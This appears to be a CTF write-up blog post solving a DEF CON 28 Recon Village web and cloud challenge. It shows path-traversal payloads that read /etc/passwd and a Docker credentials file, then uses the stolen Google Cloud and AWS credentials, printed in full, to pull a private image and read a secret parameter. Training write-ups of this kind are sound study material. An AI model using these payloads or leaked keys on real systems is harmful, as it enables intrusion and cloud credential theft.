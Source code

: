 ```yaml
---
layout: post
title: 'Recon Village CTF @ DC28 - Hybrid Awesome App Challenge'
date: '2020-08-10T00:00:00.000-00:00'
author: Keramas
tags: [ctf, defcon28, defconsafemode, reconvillage]
---
```


With so much content this year for Defcon 28, I placed all my focus on the Red Team Village CTF, but my teammate Altezza spent some time looking at the Recon Village CTF during some downtime on Friday and hit me up for some help with an interesting web/cloud challenge.

<img src = "/assets/images/reconvillagedc28/hybridawesomeapp.png">

The application is quite bare, and inputting anything into the box appears to do nothing, but we can see the following parameter which just smells like LFI.

```
http://159.65.106.65/index.php?file=test
```

Inspecting the source code reveals a couple of clues--namely that this application is based on a Docker image hosted on Gcloud.

```
    <center>
        <h1>Hybrid Awesome App</h1>
        <!-- Built with love using Docker -->
        <form action="/index.php" method="GET">
            <input type="text" name="file">
        </form>

            </center>
    </body>
</html>

[SNIP]
<!-- Golden docker image hosted in gcr.io/recon-285218/recon-code -->
```

After messing around with the file parameter, it was indeed susceptible to LFI through a simple WAF/validation bypass:

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././etc/passwd
```

<img src = "/assets/images/reconvillagedc28/lfi.png">

Based on the clues in the source code, since it is not possible to retrieve the golden Docker image without authentication, it is a good bet that the LFI is the way to get this data. 

A good clue is also present on the /info.php page:

<img src = "/assets/images/reconvillagedc28/rtfm.png">

This is definitely a hint to read about GCR Docker authentication, which points to the fact that the authentication key should be in `.docker/config.json`. Looking at the `/etc/passwd` entry, we have the Automator user which is used for Ansible, GCR, and other things, so their home directory is a good candidate. Using the LFI to test this out, it was possible to retrieve the auth file.

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././home/automator/.docker/config.json
```

<img src = "/assets/images/reconvillagedc28/gcloud.png">

Now that the config.json is in our possession, it is possible to authenticate to Gcloud:

```
# gcloud auth activate-service-account --key-file config.json
Activated service account credentials for: [recon-container@recon-285218.iam.gserviceaccount.com]
```

You can then print out the token, and pass it to Docker in order to login.

```
# gcloud auth print-access-token
ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO
```

```
# docker login -u oauth2accesstoken -p "ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO" https://gcr.io/recon-285218/recon-code
```

Now that we are authenticated, the Docker image can be pulled:

```
docker pull recon-285218/recon-code
```

Hopping into the image with `docker run -it <image> sh`, there was an `app` folder containing a git repo.

Using `git log` we can see the change history which mentions env variables, which can contain keys for AWS or other key data.

```
commit 645228975ee876d1ca451e1876967648fffb5157 (HEAD -> master)
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:25:27 2020 +0200

    Final code release

commit d8d2254968636cc74bf6b0eb55c08db1d9586e1c
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:46 2020 +0200

    updated the codebase

commit 2db6437f13ad2a547fb4e25b4982b3e14ecc08a6
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:04 2020 +0200

    Added env variables

commit 0ebc9223e6d406d79870988fae77b2c7f0f5a856
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:08 2020 +0200

    Added docs

commit b2bfab33a39900021900b0c59e760918bc00ded2
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:00 2020 +0200

    Added the main code
```
Using `git diff` on the commit for the variables (2db6437f13ad2a547fb4e25b4982b3e14ecc08a6), we get a pair of AWS credentials.

```
diff --git a/.env b/.env
deleted file mode 100644
index f8b4175..0000000
--- a/.env
+++ /dev/null
@@ -1,3 +0,0 @@
-[default]
-aws_access_key_id = AKIAXMXLEAVVDDJAANDD
-aws_secret_access_key = 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
diff --git a/README.md b/README.md
index 3d7addf..0f47c02 100644
--- a/README.md
+++ b/README.md
@@ -1,3 +1,9 @@
 # Ubercool Service
 
 This is an ubercool service. Written in Golang!
```

Now taking these keys and using it with aws-cli tools, we can query AWS to determine what these credentials are for.

```
# aws sts get-caller-identity
{
    "UserId": "AIDAXMXLEAVVNPZ2QUKVR",
    "Account": "508372977002",
    "Arn": "arn:aws:iam::508372977002:user/read-param"
}
```

Looking at the "read-param" username, it's a good bet that this key pair had some kind of read privileges for parameters in AWS SSM. Taking a look at the parameters present reveals  "/prod/ctf/flag".

```
# aws ssm describe-parameters --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "LastModifiedDate": 1596816202.755,
            "LastModifiedUser": "arn:aws:iam::508372977002:user/madhuakula",
            "Version": 3,
            "Tier": "Standard",
            "Policies": [],
            "DataType": "text"
        }
    ]
}
```
A final query can then be made to read the parameter, which at long last gives the flag!

```
# aws ssm get-parameters --name /prod/ctf/flag --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "Value": "ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9",
            "Version": 3,
            "LastModifiedDate": 1596816202.755,
            "ARN": "arn:aws:ssm:us-east-1:508372977002:parameter/prod/ctf/flag",
            "DataType": "text"
        }
    ],
    "InvalidParameters": []
}
```

```
echo ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9 | base64 -d
flag:{de53156b2aa07406a026d84158e3267a}
```



